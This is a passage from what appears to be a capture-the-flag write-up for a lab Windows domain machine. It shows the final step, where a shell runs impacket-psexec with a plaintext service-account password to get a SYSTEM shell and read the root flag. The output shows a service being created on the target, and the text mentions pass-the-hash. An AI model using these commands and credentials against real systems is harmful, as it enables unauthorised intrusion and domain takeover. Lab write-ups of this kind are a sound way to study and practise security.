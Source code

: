 ![](assets/Authority_assets/Pasted%20image%2020230823131940.png)

- I can pass the hash of the administrator using psexec and get admin access

![](assets/Authority_assets/Pasted%20image%2020230823133937.png)

- since I added the svc_ldap user to the Domain Admins group, I can just login as the user and I have administrative access as well

```                               
┌──(kali㉿kali)-[~/PNPT/machines]
└─$ impacket-psexec 'authority.htb/svc_ldap:lDaP_1n_th3_cle4r!@10.10.11.222'                  
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Requesting shares on 10.10.11.222.....
[*] Found writable share ADMIN$
[*] Uploading file CXgxXuni.exe
[*] Opening SVCManager on 10.10.11.222.....
[*] Creating service hoHq on 10.10.11.222.....
[*] Starting service hoHq.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.4644]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

```
- I can finally read the root flag.
